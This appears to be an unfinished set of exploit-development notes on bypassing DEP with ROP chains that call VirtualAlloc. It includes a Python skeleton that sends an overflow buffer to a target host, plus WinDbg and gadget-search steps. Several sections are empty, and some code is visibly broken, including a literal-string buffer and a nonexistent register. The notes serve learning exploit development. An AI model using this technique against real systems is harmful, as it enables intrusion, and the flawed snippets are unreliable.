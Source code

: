 # DEP Bypass

Uses Gadgets / Rop Chains to call the `VirtualAlloc` function and execute shellcode

### 1. Skeleton Starting Python Code
```
import socket
import sys
from struct import pack

# variables
SIZE = 500

# CommandBuffer
# These lines execute VirtualAlloc with shellcode
cb  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
cb += pack("<L", (0x46464646)) # Shellcode Return Address
cb += pack("<L", (0x47474747)) # # dummy Shellcode Address
cb += pack("<L", (0x48484848)) # dummy dwSize 
cb += pack("<L", (0x49494949)) # # dummy flAllocationType 
cb += pack("<L", (0x51515151)) # dummy flProtect

# buffer
offset = b'\x41' * SIZE
eip = b'\x42' * 4
rop = b'\x43' * (0x600 - SIZE - len(eip))

buf = b'offset + va + eip + rop'
print('[I] %s : %s' % (len(buf),buf)) # always good to print buffers to make sure they meet expectation

def main():
  if len(sys.argv) != 3:
    print('Usage: %s <ip_address> <port>\n' % (sys.argv[0]))
    sys.exit(1)

  server = sys.argv[1]
  port = sys.argv[2]
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  
  s.send(buf)
  s.close()

  print('[+] Packet sent')
  sys.exit()

if __name__ == '__main__':
  main()
```

### 2. Identify Offset  
...  

### 3. Find Bad Characters 
[Finding Bad Characters](https://github.com/cyberheisen/Penetration-Testing-Notes/blob/main/exploit_dev/identifying_bad_characters.md)  

### 4. Identify File(s) to use for Gadgets
* Files must not have DEP enabled.
* Files must not have bad characters in high bits of memory address
```
# Using Windbg
# list modules
>lm
start    end        module name
00190000 001c3000   snclientapi   (deferred)             
001d0000 001fd000   libcclog   (deferred)             
00400000 00c0c000   GraceServer   (deferred)             
012c0000 01302000   NLS        (deferred)             
01380000 013ab000   gsk8iccs   (deferred)             
01440000 0147a000   icclib019   (deferred)             
030d0000 031c0000   libeay32IBM019   (deferred)

>!dh -f <memory base address>
 ...
  # This means DEP/NX is enabled
    4140  DLL characteristics
            Dynamic base
            NX compatible
            Guard
  ...
  # No DEP enabled
  0  DLL characteristics
```

### 5.  Extract Gadgets from file
[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)  

Using `rp-win-x86.exe`
```
C:\rp-win-x86 -f <file> -r <max number of instructions> > <output file>
```
Load the output file into Visual Studio Code or text editor to search.

### 6.  Access the Bytes containing the dummy VirtualAlloc Address

  1. Save the ESP register address into another register, such as EAX, EDI, or ESI.  This address will later be used with an offset to access the dummy VirtualAlloc Address.
     * Search the gadgets text file for suitable operations to accomplish this.
      - Gadget memory addresses cannot contain bad characters  
      - Remember top of the stack contains the function return address.    
     * Place first gadget into eip.  Subsequent gadgets should be in the 'rop' section
     * Sample searches
       ```
       push esp.* ; .* pop.* ; ret
       mov .*, esp
       xchg .*, esp
       xor .*, .* ; add .*, esp
       lea .*, esp
       sub .*, .*, adc .*, esi
       
       ```
       
     ```
     ...
     # Gadgets
     # 0x5052838d: push esp ; push eax ; pop esx ; pop esi ; ret 

     # rop chains
     eip = pack("<L",(0x5052838d)) # push esp ; push eax ; pop esx ; pop esi ; ret | Copy esp to esi

     ...
     buf = offset + cb + eip + rop 
     ```

### 7. Obtaining VirtualAlloc Address

### 8. 

